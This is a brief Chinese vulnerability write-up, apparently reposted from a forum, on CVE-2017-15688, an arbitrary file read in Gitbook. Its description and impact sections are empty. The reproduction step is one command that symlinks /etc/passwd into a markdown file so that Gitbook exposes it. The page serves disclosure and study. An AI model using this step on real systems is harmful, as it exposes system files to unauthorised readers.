

# （CVE-2017-15688）Gitbook 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/2955](https://www.zhihuifly.com/t/topic/2955)

# （CVE-2017-15688）Gitbook 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

创建一个md文件，代码用以下

```
ln -s /etc/passwd ./passwd.md 
```

